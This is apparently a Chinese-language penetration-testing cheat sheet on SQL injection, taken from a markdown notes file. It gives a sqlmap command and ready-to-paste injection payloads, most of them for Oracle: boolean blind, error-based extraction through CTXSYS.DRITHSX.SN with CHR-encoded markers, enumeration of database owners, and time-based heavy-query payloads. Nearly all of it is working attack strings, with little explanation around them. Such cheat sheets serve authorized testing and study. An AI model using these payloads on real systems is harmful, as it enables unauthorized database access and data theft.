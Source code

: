 ## SQL注入

测试注重积累POC，通过插件自动化

### 1.sqlmap

对于找到的疑似参数，建议通过sqlmap指定参数进行自动化扫描：  

sqlmap.py -r request.txt -p "param1,param2" --proxy="http://127.0.0.1:8089" --dbs  

### 2.简单字符注入
select语句的注入，有时需要猜准第一个参数的值，例如此处的用户名admin   

	admin' AND 'XXX'='XXX 
	
	
### 3.简单数字注入 
	admin' AND 1=1   
	admin' AND 1=2

### 4.Oracle 布尔类型盲注
CTXSYS.drithsx.sn 和 CTXSYS.CTX_REPORT.TOKEN_TYPE 是 Oracle 中自带的函数，用于处理文本，当传入参数类型错误时，会返回异常:常用的 payload: ' and 1=ctxsys.drithsx.sn(1,(select user from dual))--  


	admin' AND (SELECT(CASE WHEN(7118=7118）THEN NULL ELSE CTXSYS.DRITHSX.SN(1,7118) END) FROM DUAL) IS NULL AND 'XBBR'='XBBR

	admin' AND (SELECT(CASE WHEN(7118=7118）THEN NULL ELSE CTXSYS.DRITHSX.SN(1,7118) END) FROM DUAL) IS NULL
	
### 5.Oracle 基于错误的注入
基于错误的注入，是利用SQL语句执行的错误，识别回显的差异。  
CTXSYS.drithsx.sn(1, (query))  
CTXSYS.CTX_REPORT.TOKEN_TYPE('', (query))  
UTL_INADDR.get_host_name(query)   
UTL_INADDR.get_host_address(query)  
Oracle 中使用 || 连接字符串。

	回显：KkjzK+查询内容+KkjzK 
	admin' AND 1297=CTXSYS.DRITHSX.SN(1297,(CHR(113)||CHR(107)||CHR(106)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (1297=1297) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(107)||CHR(106)||CHR(122)||CHR(113))) AND 'JOqN'='JOqN  
	
获取数据库的数量：  
SELECT COUNT(DISTINCT(OWNER)) FROM SYS.ALL_TABLES

获取每一个数据库的名称：  
' AND 7093=CTXSYS.DRITHSX.SN(7093,CHR(113)||CHR(107)||CHR(118)||CHR(120)||CHR(113)||(select OWNER from (SELECT OWNER,ROWNUM AS LIMIT FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES) order by 1 ASC ) WHERE LIMIT=21)||CHR(113)||CHR(120)||CHR(118)||CHR(122)||CHR(113)) AND 'XlYj'='XlYj

	
### 6.Oracle 基于时间的注入
基于AND/OR的时间注入：  

	admin' AND 9102=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5) AND 'DBEp'='DBEp  
	admin' OR 9102=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5) AND 'DBEp'='DBEp



link:  
[Oracle手注](https://blog.csdn.net/niexinming/article/details/48985873?utm_source=blogkpcl14)  
[i春秋SQL注入](https://bbs.ichunqiu.com/thread-41701-1-1.html?from=bkyl)


	

  

	
	

